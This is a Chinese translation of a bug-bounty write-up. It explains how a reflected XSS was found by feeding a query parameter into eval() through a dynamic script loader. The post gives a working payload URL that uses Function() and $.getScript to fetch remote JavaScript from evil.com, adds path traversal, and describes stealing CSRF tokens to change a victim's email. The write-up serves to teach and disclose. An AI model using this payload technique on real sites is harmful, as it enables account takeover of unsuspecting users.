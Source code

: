 # 通过不安全的动态加载反映 XSS

> 原文：<https://infosecwriteups.com/reflected-xss-through-insecure-dynamic-loading-dbf4d33611e0?source=collection_archive---------1----------------------->

## 寻找一个独特而复杂的有效负载来加载远程脚本

**停止**！在阅读本文之前，我鼓励你亲自尝试一下这个 XSS 挑战。我已经将漏洞的核心元素合并到一个简单的静态页面中:https://d11dkd80d59ds1.cloudfront.net/。虽然本文将带您了解完整的利用方法，但我要警告您，这比典型的注入要复杂得多，因此，如果您花时间亲自尝试一下，这个解决方案可能更有意义。

![](img/0abd5f94808915e2e13fee8956f528f2.png)

在阅读本文之前，你可以自己尝试一下这个 XSS 挑战。虽然本文将带您了解完整的利用方法，但我要警告您，这比典型的注入要复杂得多，因此，如果您花时间亲自尝试一下，这个解决方案可能更有意义。

最近在 [Bugcrowd](https://bugcrowd.com/gregaai) 上搜索一个私人程序时，我发现用户的电子邮件地址和安全问题都可以在没有密码验证或任何其他安全检查的情况下被修改。这种组合将允许攻击者成功地执行帐户接管；然而，我需要一个远程利用来证明提交。

对于那些刚接触或不熟悉 Bug 赏金猎人的人来说，漏洞本身并不能转化为可接受的提交。在这种情况下，我发现了一个 **P5 缺少密码确认——更改电子邮件地址**。P5 是最低的严重级别(P1 是最高的),通常不会得到奖励。要真正展示影响，你需要一个有效的，重要的是**远程**，漏洞，但就目前情况来看，攻击者需要物理访问受害者的机器，这通常会导致可怕的*无法修复*。

好消息是，利用链接通常总是在范围内(至少在显示影响所需的程度上)，所以我和发薪日之间唯一的障碍是子域接管或跨站脚本(XSS)漏洞。

# 新的希望

我花了几个小时浏览网站，寻找任何可能的 XSS，快要放弃了。我已经用尽了通过 Burp Pro 的 Issue 活动标记的每一个项目，并手动开始检查每一页的源代码，这时我注意到一些奇怪的东西— `var isDebug = getQuerystring(‘debug’, ‘false’);`位于靠近`index.html`顶部的脚本块中。`getQueryString()`函数非常简单——事实上，它经常在堆栈溢出中被引用(当时我完全没有意识到这一点)——并且提供了一个影响 DOM 的简单机会，尽管不是以一种可以立即利用的方式。

```
var isDebug = getQuerystring(‘debug’, ‘false’);function getQuerystring(key, default_) {
    if (default_ == null) default_ = "";
    key = key.replace(/[\[]/, "\\\[").replace(/[\]]/, "\\\]");
    var regex = new RegExp("[\\?&]" + key + "=([^&#]*)");
    var qs = regex.exec(window.location.href);
    if (qs == null)
        return default_;
    else
        return decodeURIComponent(qs[1]);
}
```

这个函数的基本要点是，它将从 URL 查询字符串中返回一个特定的参数(如果存在的话)(在本例中为`debug`)，否则它将返回函数调用中提供的`default_`值(在本例中为`false` )—这意味着攻击者可以通过提供查询参数来影响返回值。通过搜索我的打嗝历史，我发现这个相同的功能在几个页面上使用，但一般都是良性的结果。直到我发现一个页面以独特的方式使用了返回值。

# 深入挖掘

`ViewGadgets.html`是唯一一个使用了`getQueryString()`函数且参数不是`debug`的页面。此外，结果值被传递给其他几个函数，这些函数似乎动态加载了几个 JavaScript 文件中的一个。在这一点上，我开始认为有 50%的机会可以发现漏洞，并迅速将源代码的相关部分复制到本地 HTML 文件中，以便进行进一步的测试。从我观察到的入口点开始:

```
$(document).ready(function() {
    init();
});function init() {
    ...
    var gadgetFileName = getQuerystring(‘gadgetFileName’);
    loadGadget(gadgetFileName);
}
```

使用源代码的本地副本，我加载了带有查询参数`?gadgetFileName=test`的页面，并开始调试脚本以理解整个流程。

![](img/aa8c8d33d17daa95f84fcb6c8cae055c.png)

使用调试器和断点来理解脚本执行。

分解一下，`init()`函数包含一个对`var gadgetFileName = getQuerystring(‘gadgetFileName’);`的调用，它解析名为`gadgetFileName`的参数的查询字符串参数。`getQueryString()`函数最终返回由攻击者控制的原始查询字符串输入，因此应该被认为是不可信的，并随后进行清理。在这种情况下，这个未组织的输入然后被传递给`loadGadget()`,下面显示了它的整体以及我生成的一些解释代码的行内注释:

在高层次上，查询字符串值存储在`_jsFileName`和`gadgetName`变量中。该脚本试图使用相对路径`./scripts/widgets/gadgets/<query parameter>`加载一个额外的本地脚本，然后通过使用`eval()`从结果导入实例化一个新对象。例如，如果查询参数是`?gadgetFileName=gadget.js`，那么这个代码块将加载`./scripts/widgets/gadgets/gadget.js`，并用`eval(“new gadget()”)`实例化一个小工具类型的新对象。不管怎么说，这就是目的——让我们看看如何滥用它。

在看到查询参数最终被传递到`eval()`语句后，我开始寻找触发警告框的方法。对于那些不是 JavaScript 开发人员的人来说，`eval()`是一个内置函数，它“评估表示为字符串的 JavaScript 代码”。例如，传递一个像`eval(“alert(document.domain)”)`这样的字符串会导致一个包含网站域名的弹出消息。它最初的目的是允许动态代码生成——在这种情况下，根据用户的动作加载特定的 JavaScript 文件，但通常应该非常谨慎。

![](img/08a86fd8f32a0498db5e532480a9e6d7.png)

[https://developer . Mozilla . org/en-US/docs/Web/JavaScript/Reference/Global _ Objects/eval](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

理解了代码之后，现在的目标是精心设计一个参数值，它可以经受住几次转换，并通过`eval()`函数执行。作为一个额外的挑战，我们必须提供一个值，以便`$.getScript`成功地加载一个合法的文件，确保代码进入`.done`块，但是我们还必须使用追加到我们注入的任何字符串的`new`操作符——这意味着我们的注入必须“创建一个用户定义的对象类型或一个具有构造函数的内置对象类型的实例”。

# 最终利用

** *注意:我不建议将此有效负载添加到您的列表中——这是该网站特有的。相反，在你的狩猎中使用这些概念。***

解释我为发现一种可能的注射所做的所有尝试需要好几篇文章。简短的版本是我使用脚本的本地副本进行测试，大量使用调试器，并根据需要修改代码，主要是删除 try/catch 语句，以便我可以更好地理解发生的异常。

最后一个有效的恶意负载是`[https://www.example.com/?gadgetFileName=Function(%27%24.getScript(%22https%3a%2f%2fevil.com%2fexploit.js%22)%27)()%2f/../../../../../widgetsSummary.js](https://www.example.com/?gadgetFileName=Function(%27%24.getScript(%22https%3a%2f%2fgregcf.s3.amazonaws.com%2ffive9_xss_exploit.js%22)%27)()%2f/../../../../../clustersSummary.js)`，它使我能够加载托管在`[https://evil.com/exploit.js](https://evil.com/exploit.js.)`的外部 JavaScript 文件。

# 分解每个组件

为了便于解释，我将有效载荷插入到将要执行的代码中:

1.  和`eval()`一样，`new Function()`允许我们传递一个字符串，这个字符串将被当作代码。附加第二组括号，如`new Function()()`，使函数自调用，这意味着它在声明后立即执行。
2.  `‘$.getScript(“[https://evil.com/exploit.js](https://evil.com/exploit.js)")'`是传入`new Function()`的字符串，它使用 jQuery 加载远程脚本。这是恶意部分，可能就像一个警告框一样简单。
3.  JavaScript 注释`//`防止注入`../../../../../widgetsSummary.js`的其余部分在`new Function()`的上下文中产生语法问题。
4.  最后，设置路径遍历和文件名，以确保对`loadGadgets()`中的`$.getScript(“./scripts/widgets/gadgets/” + _jsFileName)`的调用能够成功地将代码获取到 success ( `.done`)代码块。为了遍历 gadgets 目录，找到正确的`../`号主要是一种尝试和错误，并且会根据有效负载的不同而有所不同。幸运的是，这一部分可以在开发人员控制台的网络连接选项卡中看到。页面上的独立函数引用了`widgetsSummary.js`文件，并确认该文件是合法且可访问的文件。

# 结果

将攻击者控制的远程 JavaScript 文件注入页面的能力带来了无限的机会。在这种情况下，我成功地展示了一个概念证明，它可以捕获 CSRF 令牌并更新受害者的电子邮件和安全问题。虽然它可能导致帐户被接管，但它确实需要受害者的互动——访问攻击者精心制作的链接——并被视为 P2，这是 P5 缺乏密码确认的重大改进:更改电子邮件地址。

[1]: Bugcrowd。 *Bugcrowd 的漏洞等级分类*【https://bugcrowd.com/vulnerability-rating-taxonomy 

[2]: MDN Web 文档。*eval()*[https://developer . Mozilla . org/en-US/docs/Web/JavaScript/Reference/Global _ Objects/eval](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

[3]: MDN Web 文档。*新增操作符*[https://developer . Mozilla . org/en-US/docs/Web/JavaScript/Reference/Operators/new](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/new)

我在社交媒体上不太活跃，但你可以在 [LinkedIn](https://www.linkedin.com/in/greg-gibson/) 、 [Bugcrowd](https://bugcrowd.com/gregaai) 上找到我，或者在各种安全松弛或不和谐的服务器上闲逛！
